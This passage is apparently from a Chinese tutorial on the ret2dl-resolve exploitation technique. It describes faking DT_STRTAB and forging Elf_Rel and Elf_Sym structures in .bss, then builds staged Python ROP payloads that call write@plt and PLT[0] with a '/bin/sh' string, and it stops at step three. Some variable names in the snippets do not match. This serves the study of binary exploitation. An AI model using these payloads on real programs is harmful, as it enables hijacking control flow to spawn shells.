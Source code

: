 

![image-20210523114312781](image-20210523114312781.png)

## ret2dl-resolve利用点

ret2dl-resolve利用点主要有两个地方。

a：因为动态转载器是从` .dynamic `段的 `DT_STRTAB `条目中获得` .dynstr `段的地址的，而 `DT_STRTAB `条目的位置已知，默认情况下也可写。所以攻击者能够改写` DT_STRTAB `条目的内容，欺骗动态装载器，让它以为 `.dynstr `段在 `.bss `段中，并在那里伪造一个假的字符串表。当它尝试解析` printf` 时会使用不同的基地址来寻找函数名，最终执行的是` execve`。这种方式非常简单，但仅当二进制程序的**` .dynamic `段可写***时有效。

b：我们已经知道 `_dl_runtime_resolve` 的第二个参数是` Elf_Rel `条目在 `.rel.plt `段中的偏移，动态装载器将这个值加上` .rel.plt` 的基址来得到目标结构体的绝对位置。然后当传递给` _dl_runtime_resolve` 的参数 `reloc_index `超出了` .rel.plt` 段，并最终落在` .bss `段中时，攻击者可以在该位置伪造了一个` Elf_Rel `结构，并填写` r_offset `的值为一个可写的内存地址来将解析后的函数地址写在那里，同理` r_info `也会是一个将动态装载器导向到攻击者控制内存的下标。这个下标就指向一个位于它后面的 `Elf_Sym` 结构，而 `Elf_Sym `结构中的 `st_name `同样超出了 `.dynsym `段。这样这个符号就会包含一个相对于` .dynstr `地址足够大的偏移使其能够达到这个符号之后的一段内存，而那段内存里保存着这个将要调用的函数的名称。

![image-20210523115403901](image-20210523115403901.png)

## 手动 payload流程构造梳理

以32位程序来梳理下过程：

第一步，对于正常函数而言我们调用动态连接的后write函数作payload：

```python
payload  = "AAAA"     # new ebp
payload += p32(write_plt)
payload += "AAAA"
payload += p32(1)
payload += p32(base_addr + 80)
payload += p32(len("/bin/sh"))
payload += "A" * (80 - len(payload_2))
payload += "/bin/sh\x00"
payload += "A" * (100 - len(payload_2))
```

第二步，我们伪造`write@plt`，及入栈`reloc_index`和跳转PLT[0]，那么payload改为：

```python
cmd="/bin/sh"
payload2 = 'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += 'AAAA'
payload2 += p32(1)
payload2 += p32(base_stage + 80)
payload2 += p32(len(cmd))
payload2 += 'A' * (80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))
```

第三步，伪造一个 write 函数的 `Elf_Rel `结构体。
